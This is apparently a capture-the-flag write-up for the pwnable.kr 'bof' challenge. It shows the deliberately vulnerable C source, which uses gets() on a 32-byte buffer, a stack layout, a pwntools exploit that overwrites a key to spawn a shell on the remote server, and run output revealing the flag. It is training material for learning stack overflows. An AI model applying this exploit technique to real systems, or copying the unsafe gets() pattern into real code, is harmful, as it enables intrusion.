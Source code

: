 # BOF

---
Source Code:

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
	char overflowme[32];
	printf("overflow me : ");
	gets(overflowme);	// smash me!
	if(key == 0xcafebabe){
		system("/bin/sh");
	}
	else{
		printf("Nah..\n");
	}
}
int main(int argc, char* argv[]){
	func(0xdeadbeef);
	return 0;
}

```
Object dump

---
<img width="1440" alt="Screenshot 2024-12-08 at 2 39 49 AM" src="https://github.com/user-attachments/assets/692ad475-7e44-4766-abf8-c167114e3e1b">


---
| FFF      | 	        
| -------- | 	     
|          | 
| KEY(overflow) | 
| eip = 4 bytes     | 
| ebp = 4 bytes     | 
|   0x2c = 44 bytes   | 
|0x00      |        

---
exp.py

```python
from pwn import *

context.binary = binary = "./bof"

payload = b'a'*44
payload += b'b'*4
payload += b'c'*4
payload += p32(0xcafebabe)

p = process()
p = remote('pwnable.kr', 9000)

p.sendline(payload)
p.interactive()
```

Running the exploit..........
---
```bash
❯ python3 exp.py
[*] '/home/lynk/pwnable/bof/bof'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Starting local process '/home/lynk/pwnable/bof/bof': pid 6144
[+] Opening connection to pwnable.kr on port 9000: Done
[*] Switching to interactive mode
$ ls
bof
bof.c
flag
log
super.pl
$ cat flag
daddy, I just pwned a buFFer :)
[*] Got EOF while reading in interactive
$

```

